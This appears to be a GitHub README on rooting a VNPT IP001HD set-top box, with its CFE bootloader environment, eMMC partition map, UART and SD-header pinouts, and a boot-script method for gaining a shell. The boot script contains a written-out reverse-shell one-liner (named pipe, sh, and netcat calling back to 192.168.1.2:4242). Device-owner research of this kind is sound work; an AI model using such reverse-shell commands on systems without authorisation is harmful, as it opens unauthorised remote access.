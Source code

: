 # vnpt-ip001hd
VNPT Igate set top box IP001HD

This repository contains data related to VNPT's IP001HD set-top box.
This box has a single core BCM7241 CPU running at 1305MHz along with 1GB DDR3-1866 and 3780MB of flash storage. The architecture is MIPS little endian.
Much of the info below can be obtained from the boot log.

## CFE 

Default environment:
```
CFE> printenv
Variable Name        Value
-------------------- --------------------------------------------------
        BOOT_CONSOLE uart0
 SPLASH_PART_STARTAD 228000
    SPLASH_PART_SIZE 400000
  LINUX_PART_STARTAD 628000
     LINUX_PART_SIZE 1000000
              SPLASH ENABLE
            ETH0_PHY INT
      ETH0_MDIO_MODE 1
          ETH0_SPEED 100
        ETH0_PHYADDR 1
            STARTUP0 boot -z -elf flash0.kernel: 'bmem=192M@64M bmem=512M@512M'
            STARTUP1 boot -z -elf flash0.recovery: 'bmem=192M@64M bmem=512M@512M'
            STARTUP2 sleep 1000 && boot -z -elf usbdisk0:vmlinuz-7429b0 'rootwait root=/dev/sda2 bmem=192M@64M bmem=512M@512M rw init=/init'
            BOOTMODE 0
            CFE_FUSE 11
         ETH0_HWADDR A0:65:18:8B:90:25
          STB_SERIAL 0122403S1F8B9025
         CHIP_SERIAL VNT0121S1F8B9025
            MTDPARTS
          DRAM0_SIZE 1024
          FLASH_TYPE EMMC
          FLASH_SIZE 3780
         CFE_VERSION 14.4
     CHIP_PRODUCT_ID 72410010
       CFE_BOARDNAME BCM97241USFF
      CFE_MEMORYSIZE 128
*** command status = 0

CFE> show devices
Device Name          Description
-------------------  ---------------------------------------------------------
              uart0  16550 DUART at 0xB0406700 channel 0
        flash0.rsv0  EMMC flash at 0000000000000000 offset 0000000000000000 size 32KB : emmc_part_DATA
      flash0.macadr  EMMC flash at 0000000000000000 offset 0000000000008000 size 64KB : emmc_part_DATA
       flash0.nvram  EMMC flash at 0000000000000000 offset 0000000000018000 size 64KB : emmc_part_DATA
        flash0.temp  EMMC flash at 0000000000000000 offset 0000000000028000 size 1024KB : emmc_part_DATA
     flash0.virtual  EMMC flash at 0000000000000000 offset 0000000000128000 size 1024KB : emmc_part_DATA
      flash0.splash  EMMC flash at 0000000000000000 offset 0000000000228000 size 4096KB : emmc_part_DATA
      flash0.kernel  EMMC flash at 0000000000000000 offset 0000000000628000 size 16384KB : emmc_part_DATA
    flash0.recovery  EMMC flash at 0000000000000000 offset 0000000001628000 size 16384KB : emmc_part_DATA
      flash0.system  EMMC flash at 0000000000000000 offset 0000000002628000 size 524288KB : emmc_part_DATA
       flash0.cache  EMMC flash at 0000000000000000 offset 0000000022628000 size 524288KB : emmc_part_DATA
        flash0.data  EMMC flash at 0000000000000000 offset 0000000042628000 size 2778944KB : emmc_part_DATA
        flash0.rsv1  EMMC flash at 0000000000000000 offset 00000000EBFF8000 size 32KB : emmc_part_DATA
         flash1.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT1
         flash2.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT2
               eth0  GENET Internal Ethernet at 0xB0700800
*** command status = 0

```
Some notes:
- The trick to append `init=/bin/sh` to `STARTUP` won't work.

## Getting shells

### 1. UART shell

UART shell can be accessed via J301 header with the following pins respectively: GND-RX-TX-VCC. However, I did not manage to proceed further than the CFE shell, as the Linux system requires logging in. To access the CFE shell, press Ctrl+C repeatedly when powering up the device.

### 2. System shell

In order to get to the system shell, some techniques need to be used. 

There is an unpopulated micro SD slot at J402 header. I initially thought it connects to the eMMC chip used by the devs to quickly flash a new image onto the eMMC, however by overlaying the images of the front and back of PCB and aligning the vias, I found out that it is not. The 7241 SoC has at least two SD/eMMC interfaces, one of the goes to the eMMC while the other goes to the header. An interesting note is that this SD card slot connects to the first SD/eMMC bus of the SoC (or at least first in the device tree used to compile the OS), thus getting the first number when enumerated (`mmcblk0` instead of `mmcblk1`). 

You can solder a micro sd slot directly to J402 as its pinout is very straightforward. But for extra clarity, here's the J402 header pinout (from left to right, respectively):
1. DAT1
2. DAT0
3. GND (VSS)
4. CLK
5. VCC (VDD)
6. CMD
7. DAT3
8. DAT2

This lefts the eMMC to the second node (mmcblk1). Booting up with a blank SD card reveals that unfortunately (fortunately for us), the system is hardcoded to use `mmcblk0` to mount /usr and /data. We also know the filesystem type of these two partitions are of ext4. Moreover, it tries to run a script named `rc.user` at the root of the `usr` partition.

With this knowledge, we will proceed to create two partitions on the card. The first partition will be named `usr` and the second partition will be named `data`. 

After creating the partitions, download Busybox for MIPS little endian (https://www.busybox.net/downloads/binaries/1.21.1/busybox-mipsel) and create a file named `rc.user` in root of `usr`. The `rc.user` file is a script that will be executed upon boot. We will use this opportunity to make it establish a reverse shell to our machine. Let's assume that our machine's address is 192.168.1.2.

The `rc.user` script needs to do at least these following things:
1. Copy busybox-mipsel to /bin: `cp busybox-mipsel /bin` because there is no `nc` utility in the box's stock `busybox`.
2. Softlink the nc utility: `ln -s /bin/busybox-mipsel /bin/nc`
3. (optional, if there is no DHCP) `ifconfig eth0 192.168.1.3`
4. Establish reverse shell: `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 4242 >/tmp/f`

To have the system automatically reconnect without having to reboot when we mistakenly press Ctrl+C in the shell, it is good to put the 4th command in a infinite while loop.

That's it! Now our SD card contains the neccessary files to begin hacking the box. Pop it in the soldered sd slot, power the box on and wait for the shell.
